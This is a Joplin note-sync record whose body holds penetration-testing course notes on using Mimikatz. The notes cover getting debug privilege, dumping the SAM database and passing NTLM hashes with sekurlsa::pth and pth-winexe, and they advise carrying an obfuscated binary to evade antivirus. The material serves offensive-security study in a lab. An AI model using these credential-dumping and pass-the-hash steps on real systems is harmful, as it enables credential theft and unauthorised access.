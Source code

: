 id: e9bac9b5232d46119b3409f157b0f7f2
parent_id: 
item_type: 1
item_id: ca065c5dd0874a67afa30248bca1177d
item_updated_time: 1652886470154
title_diff: "[{\"diffs\":[[1,\"Mimikatz PWK\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":13}]"
body_diff: "[{\"diffs\":[[1,\"LSASS is a privileged process running under the SYSTEM user.\\\n\\\n- Mimikatz must be launched in \\\\*\\\\*administrator \\\\*\\\\*command prompt\\\n- Copy mimikatz into the victim system - likely will be blocked by AV so recommend to have a obfuscated binary available\\\n    - mimikatz.exe available in **/usr/share/windows-resources/mimikatz**\\\n\\\n<ins>**Step 1: First get SeDebugPrivilege**</ins>\\\n\\\n> ./mimikatz.exe\\\n> \\\n> privilege::debug\\\n> \\\n> token::elevate\\\n\\\n![4966301c6746503dccea81898dadde74.png](:/334623ca52664eccae7ac0a21d291aa2)\\\n\\\n<ins>**Step 2: Dump contents of the SAM database**</ins>\\\n\\\n> lsadump::sam\\\n\\\n![7b4cbcc81201ed7dc72f474a61c53bbe.png](:/4da9057b1a5c42f0986f67edafcc1941)\\\n\\\n<ins>**Step 3:**</ins> <ins>Use the hash and the pass the hash as a login credential (or Crack the hash)</ins>\\\n\\\nPtH is an attack technique to auth to a remote target by using a valid combination of username and NTLM/LM hash rather than a clear text password.\\\n\\\nOn Mimikatz\\\n\\\n> sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash\\\n\\\nIn Kali\\\n\\\n> pth-winexe -U username%aad3b435b51404eeaad3b435b51404ee:NTLM_Hash [//10.11.0.22](//10.11.0.22) cmd\\\n> \\\n> \\\\# The hash is a NetNTLM v1/2 https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html , \\\n> \\\n> https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html\\\n\\\nUsually funny_hash is aad3b435b51404eeaad3b435b51404ee\\\n\\\n- Means 'no password' in LM Hash\\\n    \\\n- In NTLM, the equivalent is 31d6cfe0d16ae931b73c59d7e0c089c0\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1530}]"
metadata_diff: {"new":{"id":"ca065c5dd0874a67afa30248bca1177d","parent_id":"0dad434f58c94c608e219795d44a723c","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-18T15:09:10.784Z
created_time: 2022-05-18T15:09:10.784Z
type_: 13